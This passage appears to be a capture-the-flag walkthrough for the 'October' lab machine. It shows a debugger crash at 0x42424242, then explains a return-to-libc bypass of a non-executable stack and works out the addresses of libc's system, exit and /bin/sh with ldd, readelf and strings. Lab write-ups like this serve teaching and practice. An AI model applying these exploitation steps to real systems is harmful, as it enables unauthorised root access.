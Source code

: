 ```bash
0020| 0xffffd144 --> 0xf7ffdb40 --> 0xf7ffdae0 --> 0xf7fca3e0 --> 0xf7ffd980 --> 0x0
0024| 0xffffd148 --> 0xf7fca410 --> 0x804828a ("GLIBC_2.0")
0028| 0xffffd14c --> 0xf7fa1000 --> 0x1e4d6c
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```

## Bypass NX-Stack(DEP) with Retn to libc
[https://css.csail.mit.edu/6.858/2011/readings/return-to-libc.pdf](https://css.csail.mit.edu/6.858/2011/readings/return-to-libc.pdf)
Returning to libc is a method of exploiting a buffer overflow on a system that has a non-executable stack, it is very similar to a standard buffer overflow, in that the return address is changed to point at a new location that we can control. However since no executable code is allowed on the stack we can't just tag in shellcode. 

This is the reason we use the return into libc trick and utilize a function provided by the library. We still overwrite the return address with one of a function in libc, pass it the correct arguments and have that execute for us. Since these functions do not reside on the stack, we can bypass the stack protection and execute code.

We know the buffer length, need to find the address of a library function that we want to execute.

Finding address of libc with `ldd`:
> _"ldd prints the shared objects (shared libraries) required by each program or shared object specified on the command line."_
```bash
www-data@october:$ ldd /usr/local/bin/ovrflw | grep libc
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb757e000)
```

Getting offsets for system, exit and /bin/sh with `readelf`:
> _"readelf displays information about one or more ELF format object files."_
```bash
www-data@october$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -e "system@@" -e "exit@@"
   139: 00033260    45 FUNC    GLOBAL DEFAULT   12 exit@@GLIBC_2.0
  1443: 00040310    56 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
```

```bash
www-data@october$ strings -at x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
 162bac /bin/sh
```
and for this libc base (which is right for 1/512 times)
```bash
system  address = libc address + system  offset in libc
				= 0xb757e000 + 0x00040310
				= 0xb75be310
exit    address = libc address + exit    offset in libc
				= 0xb757e000 + 0x00033260
				= 0xb75b1260
/bin/sh address = libc address + /bin/sh offset in libc
				= 0xb757e000 + 0x162bac
				= 0xb76e0bac
```
